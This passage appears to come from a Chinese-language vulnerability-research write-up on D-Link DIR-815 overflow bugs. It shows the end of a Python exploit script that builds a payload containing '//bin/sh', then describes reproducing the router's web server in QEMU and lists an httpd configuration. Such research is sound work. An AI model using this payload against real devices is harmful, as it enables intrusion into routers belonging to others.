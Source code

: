 ```python
payload.Add(b'//bin/sh')  
  
f = open("exploit", 'wb+')  
f.write(payload.Build())  
f.close()
```

  





**qemu系统模式**

这里主要是为了在qemu虚拟机中重现http服务。

`/sbin/httpd`应该是用于监听web端口的http服务，同时查看`/htdocs/web`文件夹下的cgi文件和php文件，可以了解到接受到的数据通过php+cgi来处理并返回客户端。

`find ./ -name '*http*'`找到web配置文件httpcfg.php

![](/images/D-LINK DIR-815多次溢出漏洞/1752587186708.png)

查看内容后分析出`httpcfg.php`文件的作用是生成供所需服务的`配置文件`的内容，所以我们参照里面内容，自己创建一个conf作为生成的`配置文件`，填充我们所需的内容。（留个坑，暂时没搞懂）


​    
​    Umask 026  
​    PIDFile /var/run/httpd.pid  
​    LogGMT On  #开启log  
​    ErrorLog /log #log文件  
​      
​    Tuning  
​    {  
​        NumConnections 15  
​        BufSize 12288  
​        InputBufSize 4096  
​        ScriptBufSize 4096  
​        NumHeaders 100  
​        Timeout 60  
​        ScriptTimeout 60  
​    }  
​      
​    Control  
​    {  
​        Types  
​        {  
​            text/html    { html htm }  
​            text/xml    { xml }  
​            text/plain    { txt }  
​            image/gif    { gif }  
​            image/jpeg    { jpg }  
​            text/css    { css }  
​            application/octet-stream { * }  
​        }  
​        Specials  
​        {  
​            Dump        { /dump }  
​            CGI            { cgi }  
​            Imagemap    { map }  
​            Redirect    { url }  
​        }  
​        External  
​        {  
​            /usr/sbin/phpcgi { php }  
​        }  
​    }  
